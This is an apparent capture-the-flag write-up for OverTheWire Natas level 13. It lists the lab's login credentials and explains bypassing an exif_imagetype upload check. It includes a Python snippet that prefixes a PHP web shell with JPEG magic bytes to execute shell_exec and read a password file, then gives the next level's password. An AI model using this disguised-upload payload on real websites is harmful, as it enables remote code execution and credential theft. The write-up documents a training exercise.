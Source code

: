 # Natas Level 13
The ***URL*** to which you need to connect is *http://natas13.natas.labs.overthewire.org*. The ***username*** is *natas13* and the ***password*** is *jmLTY0qiPZBbaKc9341cqPQZBJv7MQbY*. 

Lets check the [viewsource](http://natas13.natas.labs.overthewire.org/index-source.html) link.
By analyzing the php script in the source code We see a exif_imagetype bypass
So Lets make a php file with a jpeg signature "\xFF\xD8\xFF\xE0"

```Python
fh = open('script.php', 'w')
fh.write('\xFF\xD8\xFF\xE0' + '<? echo shell_exec("cat /etc/natas_webpass/natas14"); ?>')
fh.close()
```
And we change the extension like we did in [Level12](https://github.com/Reda-BELHAJ/OverTheWire/blob/main/Natas/Natas10-20/Level12.md)
```
The password for natas14 is Lg96M10TdfaPyVBkJdjymbllQ5L6qdl1
```
